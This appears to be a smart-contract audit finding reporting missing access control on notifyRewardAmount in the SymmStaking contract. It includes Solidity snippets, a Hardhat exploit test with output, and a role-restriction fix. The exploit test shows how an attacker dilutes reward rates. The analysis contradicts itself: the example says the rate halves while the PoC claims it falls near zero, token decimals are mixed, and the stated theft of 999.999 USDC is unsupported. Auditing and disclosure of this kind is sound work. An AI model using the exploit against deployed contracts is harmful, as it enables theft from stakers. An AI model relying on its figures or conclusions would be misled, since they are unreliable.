 Radiant Golden Shrimp

Medium

# Unauthorized Reward Notification




## Summary
The notifyRewardAmount function lack access control thereby allowing any user to notify rewards for whitelisted tokens so the Attackers can exploit this to manipulate reward rates and drain the rewards by front-running legitimate reward notifications.


https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275-293


## Code Snippet 
1. **Unauthorized Access to notifyRewardAmount**:
```solidity
   function notifyRewardAmount(...........) external nonReentrant whenNotPaused {
       // @audit: no role check 
   }
```
2. **Reward Rate Reset Logic**:
```solidity
   function _addRewardsForToken(...............) internal {
       if (block.timestamp < state.periodFinish) {
           uint256 leftover = remaining * state.rate;
           state.rate = (amount + leftover) / state.duration; //@audit: dilute rate
       }
       state.periodFinish = block.timestamp + state.duration; //@audit: Reset period
   }
```

## Vulnerability details
The notifyRewardAmount function is designed to add new rewards to the staking pool. However, it lack the access control meaning that  anyone not just admins can trigger it.

   When notifyRewardAmount is called:
   - it transfer the reward token to the contract.  
```solidity
     IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
```
   - Then update the pendingRewards as the total unclaimed rewards.  
```solidity
     pendingRewards[token] += amount; // so even if the amount = 1 wei
```
   - it then recalculate the reward rate using _addRewardsForToken().  
```solidity
     _addRewardsForToken(token, amount); // so it is now vulnerability 
```

4. let's look at how the reward Rate Manipulation can occur inside the _addRewardsForToken: 
   - **Case 1 (No Active Rewards)**:  
     If the current reward period has ended which is the 
block.timestamp >= periodFinish, the new reward rate is set to:  
```solidity
     rate = amount / duration; // example: 1 wei / 1 week = then become a near-zero rate
```
   - **Case 2 (Active Rewards)**:  
     If rewards are still being distributed as of block.timestamp < periodFinish:  
```solidity
     uint256 remaining = periodFinish - block.timestamp;
     uint256 leftover = remaining * currentRate; // so the existing unclaimed rewards
     rate = (amount + leftover) / duration; // and the diluted leftover + new amount over full duration
```
**looking at this simple example:**  
-  Existing rewards: 1000 USDC is distributed over 1 week (rate = 1000 / 604800 ≈ 0.00165 USDC/sec).  
-  Attacker then notify 1 wei with 3 days remaining.  
-  so the leftover = 3 days * 0.00165 ≈ 432 USDC.  
- Now the new rate: 
(1 wei + 432) / 604800 ≈ 0.00071 USDC/sec and then which is half of the original rate)





## Proof of Concept (PoC):

1. As the admin whitelist USDC as a reward token then call notifyRewardAmount(USDC, 1000e18) to distribute 1,000 USDC over 1 week (DEFAULT_REWARDS_DURATION).

   The Reward Rate Before Attack happen is :
```solidity
   Rate = 1000e18 USDC / 604800 seconds ≈ 1.65e15 USDC per sec
```

2. Elijah as a legitimate user stakes 1,000 SYMM tokens expecting to earn rewards at that above rate.


3. Attacker then front-run calling the notifyRewardAmount(USDC, 1) as the 1 wei of USDC
   - This trigger the _addRewardsForToken which recalculate the reward rate:
```solidity
     if (block.timestamp < state.periodFinish) {
         uint256 remaining = state.periodFinish - block.timestamp;
         uint256 leftover = remaining * state.rate; // leftover = remaining * 1.65e15
         state.rate = (1 + leftover) / 604800; // new rate ≈ 0.00000000165e15 USDC per sec
     }
```
   - Then the reward rate drop to near-zero and the periodFinish reset to 1 week from now.

4. Then the Admin intended notifyRewardAmount which is the (USDC, 1000e18) now distribute rewards at the diluted rate which is set by the attacker.
   

## Test 


```javascript
const { expect } = require("chai");
const { ethers, upgrades } = require("hardhat");
const { time } = require("@nomicfoundation/hardhat-network-helpers");

describe("Unauthorized Reward Notification Exploit", function () {
  let admin, user, attacker;
  let SymmStaking, staking;
  let SYMM, USDC;

  before(async () => {
    [admin, user, attacker] = await ethers.getSigners();

    // the deploy mock token
    const ERC20 = await ethers.getContractFactory("ERC20Mock");
    SYMM = await ERC20.deploy("SYMM", "SYMM", 18);
    USDC = await ERC20.deploy("USDC", "USDC", 6);
    await SYMM.deployed();
    await USDC.deployed();

    // then deploy staking contract
    const SymmStaking = await ethers.getContractFactory("SymmStaking");
    staking = await upgrades.deployProxy(SymmStaking, [admin.address, SYMM.address]);
    await staking.deployed();

    // now setting up the role
    await staking.grantRole(await staking.REWARD_MANAGER_ROLE(), admin.address);
  });

  it("Allows attacker to dilute reward rates via unauthorized notification", async () => {
    // Admin whitelist USDC as reward token
    await staking.connect(admin).configureRewardToken(USDC.address, true);

    // the initial rewards 
    const legitAmount = ethers.utils.parseUnits("1000", 6); // 1000 USDC (1,000,000,000 wei with 6 decimals) 
    await USDC.mint(admin.address, legitAmount);
    await USDC.connect(admin).approve(staking.address, legitAmount);

    // Admin notify the legitimate reward
    await staking.connect(admin).notifyRewardAmount([USDC.address], [legitAmount]);
    
    // the initial reward rate
    const initialRate = (await staking.rewardState(USDC.address)).rate;
    
    // user stake the SYMM tokens
    const stakeAmount = ethers.utils.parseEther("1000"); // 1000 SYMM
    await SYMM.mint(user.address, stakeAmount);
    await SYMM.connect(user).approve(staking.address, stakeAmount);
    await staking.connect(user).deposit(stakeAmount, user.address);

    // and then attacker front run with 1 wei 
    const attackAmount = 1; // 1 wei = 0.000001 USDC
    await USDC.mint(attacker.address, attackAmount);
    await USDC.connect(attacker).approve(staking.address, attackAmount);

    // attacker trigger the unauthorized reward notification
    await staking.connect(attacker).notifyRewardAmount([USDC.address], [attackAmount]);

    // now verify the new reward rate is diluted
    const newState = await staking.rewardState(USDC.address);
    const newRate = newState.rate;
    expect(newRate).to.be.lt(initialRate); // the rate  decrease

    // Advance the time by 1 week to complete reward period
    await time.increase(604800); 

    // then checking the user rewards is near zero because of the attack
    const earned = await staking.earned(user.address, USDC.address);
    expect(earned).to.be.lt(ethers.utils.parseUnits("1", 6)); // it is now less than 1 USDC earned
  });
});
```




## Output:
```bash
  Unauthorized Reward Notification Exploit
    ✓ Allows attacker to dilute reward rates via unauthorized notification 

  1 passing 
```





##  Impact
1. So before the attack,: Elijah supposed to have earnd 1.65e15 USDC/sec * 604800 sec = 1,000 USDC over 1 week.
 but after Attack: Elijah earned ~0.00000000165e15 USDC/sec * 604800 sec ≈ 0.001 USDC over 1 week.
2. Attacker gain to stake SYMM and claims and the rewards before the rate is diluted stealing 999.999 USDC of the original 1,000 USDC.


## Recommendation
Restrict the notifyRewardAmount() to the REWARD_MANAGER_ROLE:  
```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) 
    external 
    nonReentrant 
    whenNotPaused 
    onlyRole(REWARD_MANAGER_ROLE) 
{
   // .......
}
```

